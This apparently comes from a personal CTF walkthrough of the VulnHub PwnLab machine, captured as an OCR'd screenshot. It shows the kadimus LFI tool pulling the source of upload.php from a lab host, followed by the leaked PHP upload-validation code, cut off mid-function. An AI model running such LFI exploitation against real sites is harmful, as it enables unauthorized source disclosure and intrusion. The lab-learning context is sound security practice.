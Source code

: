 ``` 
        <?php
}

root@kali:/mnt/hgfs/my-notes-and-snippets/notes/ctfs/vulnhub/pwnlab/loot# kadimus -u http://192.168.56.103/?page=login --parameter page --get-source --filename "upload" -O upload.php  #--proxy http://127.0.0.1:808
 _  __         _ _                     
| |/ /__ _  __| (_)_ __ ___  _   _ ___ 
| ' // _` |/ _` | | '_ ` _ \| | | / __|
| . \ (_| | (_| | | | | | | | |_| \__ \
|_|\_\__,_|\__,_|_|_| |_| |_|\__,_|___/

  v1.1 - LFI Scan & Exploit Tool (@hc0d3r - P0cL4bs Team)

[22:19:17] [INFO] trying get source code of file: upload
[22:19:17] [INFO] valid base64 returned:
[22:19:18] [INFO] check the output file

<?php
session_start();
if (!isset($_SESSION['user'])) { die('You must be log in.'); }
?>
<html>
	<body>
		<form action='' method='post' enctype='multipart/form-data'>
			<input type='file' name='file' id='file' />
			<input type='submit' name='submit' value='Upload'/>
		</form>
	</body>
</html>
<?php 
if(isset($_POST['submit'])) {
	if ($_FILES['file']['error'] <= 0) {
		$filename  = $_FILES['file']['name'];
		$filetype  = $_FILES['file']['type'];
		$uploaddir = 'upload/';
		$file_ext  = strrchr($filename, '.');
		$imageinfo = getimagesize($_FILES['file']['tmp_name']);
		$whitelist = array(".jpg",".jpeg",".gif",".png"); 

		if (!(in_array($file_ext, $whitelist))) {
			die('Not allowed extension, please upload images only.');
		}

		if(strpos($filetype,'image') === false) {
			die('Error 001');
		}

		if($imageinfo['mime'] != 'image/gif' && $imageinfo['mime'] != 'image/jpeg' && $imageinfo['mime'] != 'image/jpg'&& $imageinfo['mime'] != 'image/png') {
			die('Error 002');
		}

		if(substr_count($filetype, '/')>1){
			die('Error 003');
		}

		$uploadfile = $uploaddir . md5(basename($_FILES['file']['name'])).$file_ext;

		if (move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)) {
			echo "<img src=\"".$uploadfile."\"><br />";
		} else {
			die('Error 4');
```